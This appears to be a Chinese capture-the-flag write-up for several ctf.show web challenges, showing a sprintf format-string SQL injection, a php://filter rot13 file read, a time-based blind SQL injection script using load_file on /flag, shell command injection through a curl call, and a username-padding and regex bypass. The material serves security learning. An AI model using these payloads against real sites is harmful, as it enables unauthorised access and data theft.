








## 给她

打开：



.git源码泄露，直接用githack扫描题目地址+/.git发现确实如此。

```Php
<?php
$pass=sprintf("and pass='%s'",addslashes($_GET['pass']));
$sql=sprintf("select * from user where name='%s'$pass",addslashes($_GET['name']));
?>
```

本来想的是宽字节注入,但是不存在宽字节注入

然后这里有一个sprintf函数没有见过,就去百度了一下用法和相关漏洞

https://www.cnblogs.com/qingwuyou/p/10687463.html

然后sprintf()注入原理为：
 

这里利用的原理是`%1$\`为空，所以我们构造`%1$'`单引号前的转义符会被置空。从而实现单引号逃逸

于是构造SQL语句为

```sql
?name=admin&pass=%1$' or 1=1--+
```

然后到了一个界面

查看源代码



而且发现 cookie file=666c61672e747874 转成字符串发现是flag.txt

查看flag.txt文件



访问flag.txt对比一下，发现有相同的部分，推测这里应该有个文件读取或文件包含：

然后将cookie里的file给删除，发现确实有file_get_content()函数



直接构造/flag不行，用php://filter/convert.base64-encode/source=/flag提示base64不行。那么可以用rot13试试：

payload:
 `php://filter/read=string.toupper|string.rot13/resource=/flag`



然后解码，再转换为小写

然后还看到羽师傅们有其他解法

布尔盲注
 既然flag在/flag中，我们试试用load_file(/flag)，先将/flag转为16进制
 payload:`name=39&pass=1%1$c or if(ascii(substr((select load_file(0x2f666c6167)),1,1))=102,sleep(3),1)--+`
 这里给出盲注脚本

```python
import requests
url="https://1cde46a1-34ca-458b-82f4-f6e905716d31.chall.ctf.show/?name=39&pass=1%1$c or "
l=""
s="0123456789abcdefghijklmnopqrstuvwxyz-{}"
for i in range(1,50):
    print("*")
    for j in s:
        u=url+"if(ascii(substr((select load_file(0x2f666c6167)),"+str(i)+",1))="+str(ord(j))+",sleep(3),1)--+"
        #print(u)
        try:
                r =  requests.get(u,timeout=(2.5,2.5))
                #print(r.text)
        except:
                l+=j
                print(l)
                break
```

## 签到题

```php
<?php 
if(isset($_GET['url'])){
        system("curl https://".$_GET['url'].".ctf.show");
}else{
        show_source(__FILE__);
}
 ?>
```

命令执行

`;ls;`

`;cat flag;`

## 假赛生

```php
<?php
session_start();
include('config.php');
if(empty($_SESSION['name'])){
    show_source("index.php");
}else{             
    $name=$_SESSION['name'];
    $sql='select pass from user where name="'.$name.'"';
    echo $sql."<br />";
    system('4rfvbgt56yhn.sh');
    $query=mysqli_query($conn,$sql);
    $result=mysqli_fetch_assoc($query);
    if($name==='admin'){
        echo "admin!!!!!"."<br />";
        if(isset($_GET['c'])){
            preg_replace_callback("/\w\W*/",function(){die("not allowed!");},$_GET['c'],1);
            echo $flag;
        }else{
            echo "you not admin";
        }
    }
}
?>
```

然后提示有registerer.php和login.php,发现可以注册账户和登录



注册用户    admin空格

然后尝试使用admin登录,成功登录（这里绕了点小弯,我接着用admin空格登录，结果发现不行，以为这个方法行不通）

然后就是通过正则匹配

`c=!`成功通过

c=空也可以

